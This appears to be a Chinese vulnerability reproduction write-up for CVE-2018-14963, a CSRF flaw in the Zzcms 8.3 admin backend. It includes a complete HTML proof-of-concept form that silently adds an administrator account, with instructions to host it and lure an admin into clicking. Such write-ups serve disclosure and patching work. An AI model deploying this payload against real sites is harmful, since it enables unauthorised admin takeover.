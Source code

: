 ```yaml
---
title: "（CVE-2018-14963）Zzcms 8.3 csrf"
id: zhfly3316
---
```


# （CVE-2018-14963）Zzcms 8.3 csrf

## 一、漏洞简介

## 二、漏洞影响

Zzcms 8.3

## 三、复现过程

csrf漏洞，这个问题也是从上个版本就存在的问题，就是整个管理员后台的，所有表单都是没有设置csrf的token的，所以只要涉及到敏感操作的表单，都可以使用csrf来攻击，达成很多攻击利用。

这里的攻击是产生在了/admin/adminadd.php的添加管理员操作，构造的表单如下：

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://0-sec.org:8080/admin/adminadd.php?action=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="123" />
      <input type="hidden" name="passs" value="123" />
      <input type="hidden" name="passs2" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```

构造好了payload以后，放到vps上，然后诱导管理员点击恶意链接，即可成功添加管理员。

未添加管理员之前：

![image](../img/7c95692b1f4c16eba5f5287cd0355251.png)

点击链接之后：

![image](../img/37ed21aea871905e46ab6e881bd4c9bb.png)

## 参考链接

> https://www.anquanke.com/post/id/156660